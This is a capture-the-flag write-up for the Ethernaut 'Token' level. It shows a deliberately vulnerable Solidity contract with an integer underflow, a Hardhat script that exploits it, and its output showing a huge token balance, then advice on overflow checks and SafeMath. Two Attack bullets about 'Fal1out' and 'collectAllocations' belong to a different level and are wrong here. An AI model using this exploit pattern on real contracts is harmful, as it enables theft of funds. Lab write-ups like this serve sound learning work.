 ```yaml
---
title: "Ethernaut #05 Token"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Token challenge writeup
---
```


## Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

*  What is an odometer?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Background

This is a simple integer overflow bug. The statement `require(balances[msg.sender] - _value >= 0);` is always true since `balances` is a `uint`

### Attack

Call transfer with any amount to trigger an integer overflow.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    tokenAddress = "0xe4452a79b5094A91f8A00Fd65aF30e7745730e29";
    contract = await ethers.getContractAt("Token", tokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Token Balance   : " + await contract.balanceOf(account.address))

    // transfer token funds
    tx = await contract.connect(account).transfer("0x0000000000000000000000000000000000000000", 21)
    receipt = await tx.wait()

    console.log("Token Balance   : " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/token-solve.js --network rinkeby
Level address   : 0xe4452a79b5094A91f8A00Fd65aF30e7745730e29
Token Balance   : 20
Token Balance   : 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

### Success Message

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.
